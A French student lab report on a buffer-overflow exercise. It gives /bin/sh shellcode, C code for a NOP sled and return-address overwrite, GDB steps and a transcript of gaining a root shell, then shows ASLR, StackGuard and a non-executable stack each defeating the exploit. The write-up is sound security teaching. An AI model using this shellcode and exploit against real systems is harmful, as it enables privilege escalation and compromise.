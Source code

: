 # Rapport TP `bufoverflow`

## Tâche 1 : Exploitation de la vulnérabilité

Pour exploiter la vulnérabilité de "buffer overflow", deux étapes principales sont nécessaires :
- Ajouter le **shellcode** à la fin du tampon (buffer).
- Écraser l'adresse de retour avec un pointeur vers le shellcode.

### Code fourni

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

unsigned long get_sp(void) {
   __asm__("movl %esp, %eax");
}

void main(int argc, char *argv[]) {
    char buffer[1000];
    FILE *badfile;

    /* Initialise le buffer avec des instructions NOP (0x90) */
    memset(&buffer, 0x90, 1000);

    /* Vous devez remplir le tampon avec le contenu approprié ici */

    /* Sauvegarde le contenu dans le fichier "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 1000, 1, badfile);
    fclose(badfile);
}
```

Ce programme initialise un tampon (buffer) de 1000 octets avec des instructions NOP (0x90), puis l'écrit dans un fichier appelé `badfile`.

### Ajout du shellcode

Dans le programme, nous devons ajouter le shellcode à la fin du tampon en utilisant le code suivant :

```c
int shell_offset = sizeof(buffer) - sizeof(shellcode);
for (int i = 0; i < sizeof(shellcode); i++) {
    buffer[shell_offset + i] = shellcode[i];
}
```

Ce code insère le shellcode à la fin du tampon pour s'assurer qu'il est bien dans la zone débordante (overflow) du tampon.

### Écrasement de l'adresse de retour

Pour écraser l'adresse de retour, nous devons d'abord localiser l'adresse du tampon en mémoire. Cela peut être fait en déboguant le programme et en affichant l'adresse du tampon avec les étapes suivantes dans GDB :

```
$> gdb -q stack
(gdb) disas bof
(gdb) break *0x080484ca
(gdb) r
(gdb) i r $ebp
```

_Le résultat est montré dans l'image `gdb.png`_

Voici une explication des commandes :
- `disas bof` : désassemble la fonction `bof` pour trouver l'adresse du tampon.
- `break *0x080484ca` : place un point d'arrêt à la fin de la fonction `bof`.
- `r` : exécute le programme.
- `i r $ebp` : affiche la valeur du registre `ebp`, qui pointe vers la base de la pile (stack frame).

En fonction du résultat obtenu (`0xffffd2a8`), on peut ajouter un décalage (offset) pour que l'adresse de retour pointe vers la "NOP sled", qui finira par atteindre le shellcode. Pour cela, nous modifions l'adresse en `0xffffd3a8`.

L'ajout de cette adresse de retour dans le programme se fait ainsi :

```c
#define BUFFER_SIZE 293
...
int main(int argc, char *argv[]) {
    ...
    for (int i = BUFFER_SIZE%4; i <= BUFFER_SIZE + 16; i++) {
        *(buffer + i) = 0xa8;
        *(buffer + i + 1) = 0xd3;
        *(buffer + i + 2) = 0xff;
        *(buffer + i + 3) = 0xff;
    }
    ...
}
```

### Exécution de l'exploit

Après avoir compilé et exécuté l'exploit, voici les résultats obtenus :

```
$> gcc -o exploit exploit.c
$> ./exploit
$> ./stack
# cat /root/.secret
# Ce fichier secret est généré lorsque le conteneur est créé
# La chaîne secrète root ci-dessous est remplacée par un hachage clé
My ROOT secret string is: 85bdbafcdbace591a72f87e42f641fd2

# id
uid=1000(ubuntu) gid=1000(ubuntu) euid=0(root) groups=1000(ubuntu),27(sudo)
```

## Tâche 2 : Randomisation des adresses

Nous avons activé la randomisation des adresses, puis exécuté le script `whilebash.sh` pour lancer l'exploit plusieurs fois.

L'exploit échoue (comme montré dans `while.png`) lorsque la randomisation des adresses est activée. Cela s'explique par le fait que l'adresse du tampon est randomisée à chaque exécution du programme, rendant impossible l'utilisation d'une adresse de retour fixe. Le seul scénario où l'exploit pourrait fonctionner est si, par chance, l'adresse du tampon tombe dans la NOP sled. Mais en réalité, la probabilité est trop faible avec l'espace d'adressage aléatoire actuel.

## Tâche 3 : Stack Guard

Après avoir désactivé la randomisation des adresses, nous avons activé le stack guard (protection contre le débordement de tampon). En exécutant l'exploit, celui-ci échoue (`squash.png`). Le stack guard détecte le dépassement de tampon et arrête le programme avant que le shellcode ne soit exécuté. C'est une protection efficace contre ce type d'attaque.

## Tâche 4 : Pile non-exécutable

Nous avons ensuite désactivé le stack guard et activé la protection de pile non-exécutable (non-executable stack). À nouveau, l'exploit échoue (`non-exec.png`), car la pile est marquée comme non-exécutable. Cela signifie que même si le shellcode est dans la pile, il ne peut pas être exécuté. Ce mécanisme de sécurité empêche directement les attaques de type exécution de code sur la pile.

## Conclusion

En conclusion, l'exploit de dépassement de tampon fonctionne uniquement lorsque la randomisation des adresses est désactivée, le stack guard est désactivé, et la pile est exécutable. Si l'une de ces protections est activée, l'exploit échoue. Cela montre l'importance des mécanismes de sécurité modernes pour prévenir les attaques par dépassement de tampon. Ces mesures sont essentielles pour protéger les programmes contre les vulnérabilités critiques qui pourraient compromettre un système.
